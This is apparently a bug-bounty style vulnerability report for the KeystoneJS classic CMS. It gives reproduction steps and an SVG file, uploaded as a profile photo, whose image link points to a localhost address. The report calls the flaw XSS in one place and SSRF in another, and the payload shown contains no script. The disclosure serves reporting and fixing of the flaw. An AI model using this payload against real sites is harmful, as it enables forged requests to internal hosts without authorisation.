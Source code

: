 # :book: Description 


 `KeystoneJS` is a powerful Node.js content management system and web app framework built on the Express web framework and Mongoose ODM. Keystone makes it easy to create sophisticated web sites and apps, and comes with a beautiful auto-generated Admin UI. This package is vulnerable for `(XSS)`.

https://github.com/keystonejs/keystone-classic

# :recycle:  Steps To Reproduce-:  
  0) download and run latest release from https://github.com/keystonejs/keystone-classic use demo http://demo.keystonejs.com/
  1) upload svg file as user profile photo. Payload used :
```
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" style="position:relative" width="300" height="200" overflow="hidden">
<image x="10" y="10" width="276" height="110" xlink:href="http://localhost:8080/svg"/>
<path d="M0 150h300v10H0z"/>
</svg>
```
# :telescope: POC

https://drive.google.com/file/d/1Rqsbr9_ijoHOa949B9Q1cM2jv8jb4zwV/view?usp=sharing
## 💥 Impact
SSRF
